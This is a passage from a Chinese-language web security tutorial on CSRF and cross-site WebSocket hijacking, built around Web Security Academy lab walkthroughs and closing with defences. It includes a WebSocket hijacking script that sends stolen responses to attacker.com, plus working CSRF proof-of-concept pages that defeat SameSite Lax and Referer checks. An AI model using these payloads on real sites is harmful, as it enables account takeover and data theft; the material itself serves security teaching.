Sec-WebSocket-Accept: s3pPLMBiTxaQ9kYGzzhZRbK+xOo=
```

之后 TCP 连接保持不关闭，两端可以随时互相发送数据帧。

**为什么 WebSocket 容易受到 CSWSH 攻击？**

WebSocket 的握手是一个标准的 HTTP GET 请求，但存在三个区别于普通 HTTP 请求的关键特点：

**特点一：浏览器不在 WebSocket API 上强制同源策略**

普通 HTTP 请求（fetch/XHR）遵循同源策略：从 `attacker.com` 向 `example.com` 发起的跨源请求会被浏览器拦截（除非服务器通过 CORS 头明确允许）。但 WebSocket 不同——`new WebSocket("wss://example.com/chat")` 可以从**任何域**的页面发起，浏览器不拦截。这是 WebSocket 协议的设计特性，目的是允许跨域 WebSocket 连接。

**特点二：握手请求自动携带目标域的 Cookie**

与所有 HTTP 请求一样，浏览器在发送 WebSocket 握手请求时会自动附带目标域名的 Cookie（受 SameSite 限制影响）。如果服务器仅依赖 Cookie 对 WebSocket 连接进行认证，那么——

- 从同站发起的握手（如从 `blog.example.com` 到 `app.example.com`）：Cookie 随请求一起发送
- 从外部站点发起的握手（如从 `attacker.com` 到 `example.com`）：SameSite=Strict 时阻止发送 Cookie，但 SameSite=Lax/None 时仍会发送

**特点三：CSWSH 是读写型攻击，而非仅写**

这使 CSWSH 比 CSRF 严重得多：

| 维度 | 普通 CSRF | CSWSH |
|------|----------|-------|
| **请求方向** | 单向（攻击者发送，不能读响应） | 双向（攻击者既发送也接收） |
| **连接特性** | 一次性的请求-响应 | 持久连接，可持续交互 |
| **数据窃取** | 不可能 | 可能——WebSocket 是全双工的 |
| **攻击范围** | 单个操作（改邮箱、转账） | WebSocket 支持的任何操作，且能读取服务器推送的数据 |

**CSWSH 攻击示例：**

假设 `app.example.com` 有一个 WebSocket 端点 `wss://app.example.com/ws/trading`，用于实时交易。服务器在握手阶段通过 Cookie 验证用户身份，但没有检查 `Origin` 头。

攻击者首先在 `blog.example.com` 上找到一个 XSS（或 Cookie 注入）。由于是兄弟域名，属于同站，瀏览器会将 `app.example.com` 的 Cookie 随握手请求发送。

攻击者在 `blog.example.com` 上注入的恶意 JavaScript：

```javascript
// 从受害者浏览器建立到目标应用的 WebSocket 连接
// 因为是同站（blog.example.com → app.example.com），Cookie 被自动携带
var ws = new WebSocket('wss://app.example.com/ws/trading');

ws.onopen = function() {
    // 连接建立后，以受害者身份发送交易指令
    ws.send('{"action": "transfer", "to": "attacker-account", "amount": 10000}');
    ws.send('{"action": "sell", "symbol": "AAPL", "shares": 500}');
};

ws.onmessage = function(event) {
    // 能够读取服务器返回的数据 —— CSRF 做不到这一点
    // 窃取账户余额、持仓信息、交易历史等敏感数据
    var img = new Image();
    img.src = 'https://attacker.com/steal?data=' + encodeURIComponent(event.data);
};

ws.onerror = function() {
    // 连接失败，可能服务器检查了 Origin
};
```

受害者浏览器的行为：

1. 访问 `blog.example.com`（含有 XSS payload）
2. XSS payload 执行 `new WebSocket('wss://app.example.com/ws/trading')`
3. 浏览器发送 WebSocket 握手到 `app.example.com`，携带 `Cookie: session=victim-session`
4. `app.example.com` 验证 Cookie 有效，返回 101 升级为 WebSocket
5. 攻击者的脚本现在拥有一个以受害者身份认证的全双工 WebSocket 连接
6. 攻击者可以发送交易指令，也可以读取服务器返回的所有数据

**CSWSH 与 SameSite 的关系：**

| SameSite 设置 | 来自外部站点的 WebSocket 握手 | 来自兄弟域名的 WebSocket 握手 |
|--------------|--------------------------|--------------------------|
| **None** | Cookie 发送（攻击可行） | Cookie 发送（攻击可行） |
| **Lax** | WebSocket 握手是 GET 请求，但非顶级导航触发——浏览器不发送 Cookie（攻击不可行） | Cookie 发送（攻击可行） |
| **Strict** | Cookie 不发送（攻击不可行） | Cookie 发送（攻击可行） |

关键结论：**无论 SameSite 设置为何，只要存在一个可被攻击者控制的兄弟域名，Cookie 就会在 WebSocket 握手时被发送。** SameSite 在这种情况下完全不构成障碍。

**服务器端如何防御 CSWSH：**

WebSocket 的握手本质上是一个 HTTP 请求，所以 CSRF 令牌验证同样适用于 WebSocket 握手。常见方式是在连接 URL 中附带令牌作为查询参数：

```
wss://app.example.com/ws/trading?csrf_token=abc123xyz
```

服务器在握手阶段验证 `csrf_token` 参数：
- 验证失败 → 拒绝升级（返回 403）
- 验证通过 → 建立 WebSocket 连接

但更关键且最简单的防御是验证 `Origin` 头：

```
GET /ws/trading HTTP/1.1
Host: app.example.com
Origin: https://blog.example.com    ← 来自兄弟域名，不是预期来源
```

服务器的验证策略（按严格程度递增）：

| 策略 | 行为 | 安全性 |
|------|------|--------|
| 不检查 Origin | 任何来源的握手都接受 | 危险——完全暴露于 CSWSH |
| 检查域名字符串包含 | `if origin.contains("example.com")` | 不足——子域名伪造可绕过（如 `example.com.attacker.com`） |
| 精确匹配白名单 | `if origin === "https://app.example.com"` | 安全——攻击者无法伪造 Origin 头 |

**注意：** `Origin` 头由浏览器设置，攻击者无法通过 JavaScript 伪造其值。但对于非浏览器客户端（如 curl、脚本），Origin 头可以被任意设置——不过这种场景下不存在"跨站"的概念，属于不同的威胁模型。

**CSWSH 攻击总结：**

```
CSWSH 攻击成立条件
├── 目标应用使用 WebSocket
├── 服务器仅通过 Cookie 认证 WebSocket 连接（无 Origin 检查、无令牌验证）
└── 攻击者能发起跨站请求（外部站点 + SameSite=None/Lax，或兄弟域名 + 任何 SameSite 设置）

攻击效果（比 CSRF 严重）
├── 读写双向 —— 能窃取 WebSocket 推送的数据
├── 持久连接 —— 可持续交互，不限于单个操作
└── 浏览器不拦截 —— WebSocket API 不受同源策略限制
```

---

### 绕过 SameSite Lax 限制：利用新颁发的 Cookie

为了不破坏单点登录（SSO）机制，Chrome 在 Cookie 设置后的**前 120 秒**内不对顶级 POST 请求强制执行 Lax 限制。这意味着存在一个两分钟的时间窗口，用户在此期间可能容易受到跨站攻击。

**注意：** 此两分钟窗口不适用于显式设置了 `SameSite=Lax` 属性的 Cookie。

**利用思路：**

1. 找到站内小工具，强制受害者被颁发新的会话 Cookie（如通过 OAuth 登录流程——OAuth 服务不一定知道用户是否已登录目标站点）
2. 在 Cookie 刷新后的 120 秒窗口内发起 CSRF 攻击

**触发 Cookie 刷新的方式：**

- 使用顶级导航触发 Cookie 刷新（确保包含当前 OAuth 会话的 Cookie），然后重定向回攻击者站点发起 CSRF 攻击
- 从新标签页触发 Cookie 刷新（浏览器不会离开当前页面）

**新标签页方法中的弹窗绕过：** 浏览器默认阻止弹窗标签页，除非通过手动交互打开。可以通过 `onclick` 事件处理器绕过：

```javascript
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

`window.open()` 方法仅在用户点击页面上某处时被调用。

---

#### Lab 实战：完整攻击脚本逐行拆解

**攻击目标：** 受害者已登录靶场（通过 OAuth），攻击者要修改受害者的邮箱。靶场 Cookie 设置了 SameSite=Lax，正常情况下跨站 POST 表单无法携带 Cookie。

**攻击成立的关键：** Chrome 在设置 Cookie 后的 120 秒内不强制执行 SameSite 规则，利用这个豁免窗口绕过 Lax 限制。

##### 第一部分：用点击触发的弹窗，刷新 Cookie

```javascript
window.onclick = () => {
    window.open('https://.../social-login');
    // ...
}
```

- **为什么用 `window.onclick`：** 浏览器会拦截未经用户交互的弹窗。用点击事件绑定，只要受害者点页面任意位置，弹窗就能成功打开。
- **为什么是 `/social-login`：** 这是 OAuth 登录接口。受害者点击后，新窗口会走一遍 OAuth 流程，服务端会重新下发一个 Session Cookie。
- **关键点：** 这个新下发的 Cookie 在 120 秒内不受 SameSite 限制，可以随跨站请求发送。

##### 第二部分：延迟执行表单提交

```javascript
function a(){document.getElementById('form1').submit();}setTimeout(a,10000);
```

- **为什么用 `setTimeout` 延迟：** OAuth 跳转需要时间。如果弹窗的同时立刻提交表单，Cookie 可能还没拿到，攻击会失败。延迟 10 秒，给登录流程足够的时间完成。
- **`document.getElementById('form1').submit()`：** 通过 JS 自动提交页面上的隐藏表单。

##### 第三部分：清理 URL 痕迹

```javascript
history.pushState('', '', '/');
```

作用：把当前页面的 URL 替换成 `/`，去掉可疑参数，让受害者看起来只是在一个普通页面，增加隐蔽性。

##### 第四部分：隐藏的 CSRF 表单

```html
<form id="form1" action="https://.../my-account/change-email" method="POST" >
    <input type="hidden" name="email" value="babb@bbb" />
</form>
```

这是一个不可见的表单，目标地址是修改邮箱的接口。因为是 POST 方式，SameSite=Lax 下跨站 POST 通常不带 Cookie，但因为刚刷新了 Cookie，它还在 120 秒的"豁免窗口"内，所以 Cookie 会被带上。

##### 攻击全流程总结

1. **诱导点击：** 受害者访问恶意页面。页面绑定了 `window.onclick`，等待受害者点击页面（比如为了关闭一个假弹窗）。
2. **刷新 Cookie（弹窗）：** 一旦点击，JS 打开一个指向 `/social-login` 的小窗口。OAuth 自动完成登录，服务器下发一个全新的 Session Cookie。
3. **延迟等待：** 主页面同时启动一个 10 秒的定时器，给弹窗足够时间完成 OAuth 并拿到新 Cookie。
4. **执行 CSRF（表单提交）：** 定时器到点后，JS 自动提交修改邮箱的隐藏表单。因为 Cookie 刚下发不到 10 秒，远在 Chrome 120 秒的豁免期内，Cookie 被携带，服务器确认了受害者的身份，邮箱被成功修改。

##### 攻击成功的关键要素

| 要素 | 作用 | 原理 |
|------|------|------|
| **用户交互绑定** | 保证弹窗不被浏览器拦截 | 浏览器默认拦截无用户交互的 `window.open()`，`onclick` 绑定绕过了这个限制 |
| **定时触发机制** | 点击弹窗保证登录完成，延迟保证 Cookie 到位 | 两者配合利用了 120 秒豁免窗口 |
| **新 Cookie 下发即无限制** | 刚设置的 Cookie 免于 SameSite 检查 | Chrome 为兼容 SSO 机制，对新 Cookie 有 120 秒的 SameSite 豁免期 |

**攻击精髓：** 让受害者点击页面，然后同时做两件事——弹窗重新登录拿一个"热乎的"Cookie，延迟一会后用这个 Cookie 跨站 POST 修改受害者的邮箱。

---

## 绕过基于 Referer 的 CSRF 防御

基于 Referer 的 CSRF 防御依赖三个隐含假设：

| 假设 | 说明 |
|------|------|
| **假设1：浏览器一定会发送 Referer** | 服务器认为每个跨站请求都会携带 Referer 头 |
| **假设2：Referer 中的域名可被可靠验证** | 服务器认为检查 Referer 中的域名就能判断请求来源 |
| **假设3：Referer 的完整内容均可信** | 服务器认为 Referer 中的路径和查询参数也能用于验证 |

以下两种绕过方法分别针对这些假设。

### 方法一：让浏览器不发 Referer 头（针对假设1）

**核心思路：** 服务器为了"容错"，可能只在 Referer 头存在时才检查它。如果请求没有 Referer，就直接放行。攻击者要做的就是让浏览器不发这个头。

**正常流程：**

从 `attacker-website.com` 发出一个指向 `vulnerable-website.com` 的请求，浏览器默认带上 `Referer: http://attacker-website.com`。服务器检查来源不匹配，拦截。

**绕过流程：**

攻击者在自己的页面中添加：

```html
<meta name="referrer" content="never">
```
需要用head包裹<meta name="referrer" content="never">如下
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <head>
    <meta name="referrer" content="never">
  </head>
  <body>
    <form action="https://0a9300da0484603180b849b8004800a0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener12&#64;normal&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

这告诉浏览器："从此页面发出的所有请求，都不要带 Referer 头。"服务器收到的请求中根本没有 Referer 字段，错误地认为安全，放行。

### 方法二：欺骗 Referer 检查（针对假设2和假设3）

如果服务器强制要求必须有 Referer，但检查逻辑写得有问题，攻击者就可以伪造一个看起来合法的值。

#### 1. 只检查前缀

服务器代码可能类似：

```java
if (referer.startsWith("http://vulnerable-website.com"))
```

攻击者注册域名：

```
http://vulnerable-website.com.attacker-website.com/csrf-attack
```

该 URL 的开头确实匹配预期前缀，能骗过检查。实际上它是 `attacker-website.com` 的子域名，页面完全由攻击者控制。

#### 2. 只检查是否包含域名

服务器代码可能仅用包含判断：

```java
if (referer.contains("vulnerable-website.com"))
```

攻击者在自己的 URL 查询参数中塞入目标域名：

```
http://attacker-website.com/csrf-attack?vulnerable-website.com
```

此时 Referer 为 `http://attacker-website.com/csrf-attack?vulnerable-website.com`，确实包含了目标域名，服务器误以为请求来自自身，放行。

#### 补充：查询字符串被浏览器隐藏的问题

第二种方法把目标域名放在查询参数中。但许多浏览器为了隐私，默认会从 Referer 中去掉查询字符串。

解决方案：攻击者在自己的服务器响应中设置：

```
Referrer-Policy: unsafe-url
```

> 注意：`Referrer` 在 HTTP 头中的拼写是三个 r。

`unsafe-url` 策略强制浏览器发送完整 URL（包括路径和查询参数）。即使浏览器默认会裁剪，攻击者也能确保包含目标域名的完整 URL 被发出。

---

#### Lab 实战：带有损坏的 Referer 验证的 CSRF

**场景：** 电子邮件更改功能存在 CSRF 漏洞。应用程序通过检查 Referer 头来防御跨域请求，但验证逻辑存在缺陷——只要 Referer 中**包含**目标域名即放行，而非精确匹配来源。

**测试过程：**

1. 登录自己的账户，提交"更新电子邮件"表单，在代理历史中找到请求
2. 将请求发送到 Burp Repeater，修改 Referer 头中的域名为任意值——请求被拒绝
3. 将目标域名以查询字符串形式附加到 Referer 中：
   ```
   Referer: https://arbitrary-incorrect-domain.net?your-lab-id.web-security-academy.net
   ```
4. 发送请求，被接受。服务器只检查 Referer 中是否**包含**预期域名

##### 两个攻击脚本的对比

**能绕过验证的脚本：**

```html
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Referrer-Policy: unsafe-url
<html>
  <body>
  <script>history.pushState('', '', '/?0af8...web-security-academy.net')</script>
    <form action="https://0af8...web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener11@normal-user.net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

**不能绕过的脚本：**

```html
<html>
  <body>
    <form action="https://0af8...web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener11@normal-user.net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

##### 核心区别逐项对比

| 对比项 | 能绕过的脚本 | 不能绕过的脚本 |
|--------|------------|--------------|
| `history.pushState` 的第三个参数 | `'/?0af8...目标域名'` | `'/'` |
| 执行后地址栏显示的 URL | `https://exploit-server.net/?目标域名` | `https://exploit-server.net/` |
| 表单提交时带的 Referer 头 | `https://exploit-server.net/?目标域名` | `https://exploit-server.net/` |
| 服务器检查 Referer 时发现 | 包含了目标域名，放行 | 只有 exploit-server.net，不含目标域名 |
| 验证结果 | 绕过成功 | 被拦截 |

**原理：** 服务器只检查 Referer 里有没有自己的域名。第二段代码的 Referer 是 `https://exploit-server.net/`，里面没有目标域名，请求被拒绝。第一段代码用 `history.pushState` 把目标域名当作查询参数拼在 URL 后面，提交表单时 Referer 变成了 `https://exploit-server.net/?目标域名`，服务器发现包含自己的域名，放行。

##### `history.pushState` 在这里的作用

`history.pushState(state, title, url)` 是浏览器 History API，只改变地址栏显示的 URL，**不刷新页面**：

- 第一个参数 — 状态对象（这里不需要，留空）
- 第二个参数 — 标题（浏览器基本忽略，留空）
- 第三个参数 — **新的 URL 路径**，这是关键

两种用法在攻击中的不同效果：

| 用法 | 效果 |
|------|------|
| `history.pushState('', '', '/')` | 地址栏变成 `https://exploit-server.net/`，隐藏攻击路径，增加隐蔽性 |
| `history.pushState('', '', '/?目标域名')` | 地址栏变成 `https://exploit-server.net/?目标域名`，提交表单时 Referer 携带目标域名，绕过验证 |

**一句话：** 把目标域名塞进自己 URL 的查询参数里，表单提交时浏览器把整个 URL 作为 Referer 发出去，服务器一看"里面有我的域名"，放行。

##### `Referrer-Policy: unsafe-url` 的作用

现代浏览器默认会从 Referer 头中剥离查询字符串（隐私保护），所以光用 `history.pushState` 把域名塞进查询参数还不够——浏览器发 Referer 时会把它去掉。

在漏洞利用服务器响应中加上：

```
Referrer-Policy: unsafe-url
```

这个头告诉浏览器："本次请求发送完整的 URL，包括查询字符串"。这样藏在参数里的目标域名才能被送到服务器。

> 注意：HTTP 头中 `Referer` 拼写是三个 r（历史原因留下的拼写错误），但 `Referrer-Policy` 头中 `Referrer` 是正确拼写（四个 r）。这是两个不同的头，不要混淆。

##### 完整攻击流程

1. 在漏洞利用服务器上托管 HTML 页面
2. 用 `history.pushState` 将目标域名写入当前 URL 的查询参数
3. 在服务器响应头中设置 `Referrer-Policy: unsafe-url`，确保浏览器发送完整 URL
4. 表单提交时，Referer 头变为 `https://exploit-server.net/?目标域名`
5. 服务器检查 Referer，发现包含自己的域名，验证通过
6. 受害者的邮箱被修改

### 总结

这两种绕过之所以能成功，根源在于：

1. **服务器验证逻辑不严谨** — 容忍 Referer 缺失，或校验方式过于宽松（前缀/包含而非精确匹配）
2. **开发者过于信任浏览器行为** — 认为浏览器一定会带 Referer，且 Referer 一定真实、完整

---

## CSRF 防御措施绕过方法对比

| 防御类型 | 绕过方式 | 核心原理 |
|----------|----------|----------|
| CSRF 令牌 (请求方法) | 切换到 GET 方法 | POST 验证，GET 不验证 |
| CSRF 令牌 (令牌存在) | 删除令牌参数 | 有令牌时验证，无令牌时跳过 |
| CSRF 令牌 (会话绑定) | 使用自己的令牌 | 令牌池全局共享，不绑定会话 |
| CSRF 令牌 (Cookie 绑定) | Cookie 注入 + 自己的令牌 | 令牌绑定到独立 Cookie，可被覆盖 |
| CSRF 令牌 (Double Submit) | Cookie 注入 + 自创令牌 | 无服务器端记录，仅比对 Cookie 和参数值 |
| SameSite Lax | GET 请求 / 方法覆盖 | Lax 允许 GET 顶级导航；框架支持方法覆盖参数 |
| SameSite Strict | 客户端重定向 Gadget | 站内二次请求携带所有 Cookie |
| SameSite Strict | 兄弟域名 XSS | 同站跨源攻击；XSS 完全破坏 site 级防御 |
| SameSite Lax (新 Cookie) | 120 秒窗口 + Cookie 刷新 | Chrome 对无显式 SameSite 的新 Cookie 有 120s 豁免 |
| Referer (头存在) | META no-referrer | 去除 Referer 头使验证跳过 |
| Referer (域名前缀) | 子域名伪造 | `target.com.attacker.com` 通过前缀检查 |
| Referer (域名包含) | 查询参数注入 | `attacker.com?target.com` 通过包含检查 |

---

## 如何防御 CSRF 漏洞

### 1. 使用 CSRF 令牌（最健壮的方法）

CSRF 令牌必须满足以下标准：

| 要求 | 说明 |
|------|------|
| **不可预测 + 高熵** | 与会话令牌相同的属性，使用加密安全的伪随机数生成器（CSPRNG），种子为创建时间戳 + 静态密钥 |
| **绑定到用户会话** | 生成后存储在服务器端的用户会话数据中 |
| **严格验证** | 在每个需要验证的请求中执行，无论 HTTP 方法或内容类型。请求中完全缺少令牌时应与存在无效令牌一样拒绝 |

**令牌传输：**

| 方式 | 评价 |
|------|------|
| **HTML 表单隐藏字段（POST）** | 推荐方式。字段应放在 HTML 文档中尽可能早的位置，最好在任何非隐藏输入字段和用户可控数据嵌入位置之前，以减轻 HTML 操纵攻击 |
| **URL 查询字符串** | 较不安全。查询字符串在客户端和服务器端的多个地方被记录，可能通过 HTTP Referer 头传输给第三方，且可能显示在用户浏览器屏幕上 |
| **自定义请求头** | 提供额外防御（浏览器通常不允许跨域发送自定义头），但限制应用程序只能通过 XHR 发出 CSRF 保护的请求，对很多场景可能过于复杂 |
| **Cookie 中传输** | 不应在 Cookie 中传输 CSRF 令牌 |

### 2. 使用 Strict SameSite Cookie 限制

- 理想情况下，默认使用 **Strict** 策略，仅在有充分理由时降级为 **Lax**
- 永远不要使用 `SameSite=None` 禁用 SameSite 限制，除非完全了解安全影响
- 即使所有浏览器最终都采用 "Lax-by-default" 策略，也不适合所有 Cookie，且比 Strict 限制更容易被绕过

### 3. 警惕跨源同站攻击

- 如果可能，将不安全的内容（如用户上传的文件）隔离在与敏感功能或数据**不同的 site** 上
- 测试站点时，彻底审计属于同一 site 的所有可用攻击面，包括所有兄弟域名

### 防御措施总结

```
CSRF 防御层次（纵深防御）

第一层：CSRF 令牌
├── 生成：CSPRNG(时间戳 + 静态密钥)，高熵且不可预测
├── 传输：HTML 表单隐藏字段（POST），放 HTML 文档前部
├── 存储：服务器端会话数据
├── 验证：每个敏感操作，不论方法和 Content-Type
└── 缺失令牌 = 无效令牌 = 拒绝请求

第二层：SameSite Cookie
├── 默认 Strict，有需要才降级 Lax
├── 绝不使用 None（除非完全了解风险）
└── 注意：SameSite 不能防御同站跨源攻击

第三层：架构层面
├── 不安全内容隔离到独立 site
├── 审计所有同站子域的攻击面
└── 注意 WebSocket 的 CSWSH 风险
```
